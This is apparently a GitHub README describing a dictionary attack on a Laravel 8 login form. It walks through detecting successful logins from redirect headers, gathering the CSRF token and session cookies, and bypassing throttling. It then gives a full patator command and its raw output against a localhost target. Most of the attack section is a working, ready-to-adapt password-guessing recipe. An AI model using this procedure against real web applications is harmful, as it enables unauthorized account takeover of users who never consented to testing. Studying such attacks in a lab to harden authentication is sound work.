 # Laravel-8-Dictionary-attack
Laravel username and password attacks
<pre>
    When the form is submitted response from the server is always 302 Found for all the inputs.
    Following you will get a GET request with 200 status code
    For correct/incorrect the credentials may be the status code is 302 and 200.
    Content-length is same
    
 How to get rid of this    
    Size of the response varies in 1-byte for both sucess and failed attempts
    so only option is the redirection header
    Get request redirects to Location : http://127.0.0.1:8000/login 
    Consider this will change after a successful login

Even to figure out these stuff laravel app locked out IP for many attempts
override default throttle settings for our purpose

Based on these consideration our attack follows:
Laravel App version : 8.x

package ui:Auth which takes care the authentication
our required parameters for the attack
    1 => _token 
    2 => email 
    3 => password
    4 => session_cookie
    5 => XSRF-TOKEN

Python Patator command 

time patator http_fuzz method=POST url="http://127.0.0.1:8000/login" 0=/usr/share/wordlists/nmap.lst              body="email=pascale.robel@example.org&password=FILE0&_token=kt33P50poYKRddZDDnnL174O5K43KPTJDhIaJ7S6" follow=1 header=@header.txt -x quit:fgrep!="Location: http://127.0.0.1:8000/login" accept_cookie=0

method => post
_token => @csrf token either inscpect or curl it(it will vary for every request)
          Challenge is that, if we allow the get request following the form submit, it will get vary
header => session_cookie and XSRF-TOKEN in the file

follow=1 =>  we have to follow the redirection

          we know well that if the login succeeds it will redirect to other location,
          GET request will be same redirect header for failed attempts
          
x quit:fgrep!="Location: http://127.0.0.1:8000/login"

          if the GET response has different header to redirect then it is a valid login.
          
Result of the attack
01:01:49 patator    INFO - code size:clen       time | candidate                          |   num | mesg
01:01:49 patator    INFO - -----------------------------------------------------------------------------
01:01:56 patator    INFO - 200  9004:-1        6.419 | 12345                              |     2 | HTTP/1.1 200 OK
01:01:57 patator    INFO - 200  8709:-1        7.056 | 123456                             |     1 | HTTP/1.1 200 OK
01:01:57 patator    INFO - 200  8709:-1        7.218 | 123456789                          |     3 | HTTP/1.1 200 OK
01:01:57 patator    INFO - 200  8709:-1        7.644 | iloveyou                           |     4 | HTTP/1.1 200 OK
01:01:57 patator    INFO - 200  8709:-1        7.871 | 12345678                           |     6 | HTTP/1.1 200 OK
01:01:58 patator    INFO - 200  8709:-1        8.293 | princess                           |     5 | HTTP/1.1 200 OK
01:01:58 patator    INFO - 200  8709:-1        8.722 | 1234567                            |     7 | HTTP/1.1 200 OK
01:01:59 patator    INFO - 200  8709:-1        9.047 | nicole                             |     9 | HTTP/1.1 200 OK
01:01:59 patator    INFO - 200  8709:-1        9.299 | daniel                             |    10 | HTTP/1.1 200 OK
01:01:59 patator    INFO - 200  8709:-1        9.628 | abc123                             |     8 | HTTP/1.1 200 OK
01:02:06 patator    INFO - 200  9004:-1        9.438 | babygirl                           |    12 | HTTP/1.1 200 OK
01:02:06 patator    INFO - 200  8709:-1        9.312 | monkey                             |    11 | HTTP/1.1 200 OK
01:02:06 patator    INFO - 200  8709:-1        9.642 | qwerty                             |    13 | HTTP/1.1 200 OK
01:02:07 patator    INFO - 200  8709:-1        9.517 | lovely                             |    14 | HTTP/1.1 200 OK
01:02:07 patator    INFO - 200  8709:-1        9.619 | michael                            |    16 | HTTP/1.1 200 OK
01:02:08 patator    INFO - 200  8709:-1        9.435 | 654321                             |    15 | HTTP/1.1 200 OK
01:02:08 patator    INFO - 200  8709:-1        9.590 | jessica                            |    17 | HTTP/1.1 200 OK
01:02:08 patator    INFO - 200  8709:-1        9.522 | ashley                             |    19 | HTTP/1.1 200 OK
01:02:09 patator    INFO - 200  8709:-1        9.732 | 000000                             |    20 | HTTP/1.1 200 OK
01:02:09 patator    INFO - 200  8709:-1        9.624 | 111111                             |    18 | HTTP/1.1 200 OK
01:02:14 patator    INFO - 200  8709:-1        8.035 | iloveu                             |    21 | HTTP/1.1 200 OK
01:02:14 patator    INFO - 200  9004:-1        8.290 | michelle                           |    22 | HTTP/1.1 200 OK
01:02:15 patator    INFO - 200  8709:-1        7.884 | tigger                             |    23 | HTTP/1.1 200 OK
01:02:15 patator    INFO - 200  8709:-1        7.588 | sunshine                           |    24 | HTTP/1.1 200 OK
01:02:15 patator    INFO - 200  8709:-1        7.769 | password1                          |    26 | HTTP/1.1 200 OK
01:02:15 patator    INFO - 200  8709:-1        7.469 | chocolate                          |    25 | HTTP/1.1 200 OK
01:02:15 patator    INFO - 200  8709:-1        7.369 | soccer                             |    27 | HTTP/1.1 200 OK
01:02:16 patator    INFO - 200  8709:-1        7.360 | friends                            |    29 | HTTP/1.1 200 OK
01:02:16 patator    INFO - 200  8709:-1        7.624 | purple                             |    30 | HTTP/1.1 200 OK
01:02:16 patator    INFO - 200  8709:-1        7.234 | anthony                            |    28 | HTTP/1.1 200 OK
01:02:17 patator    INFO - 500  187:-1         2.869 | password                           |    32 | HTTP/1.0 500 Internal Server Error

As you can see once it finds the valid password it server throws an error saying Internal Server Error
Because @csrf _token mismatch happens here for every GET request.

Be watchful for the account lockout in laravel, I tried like script kiddie guys...
Happy Hacking !!!...
          
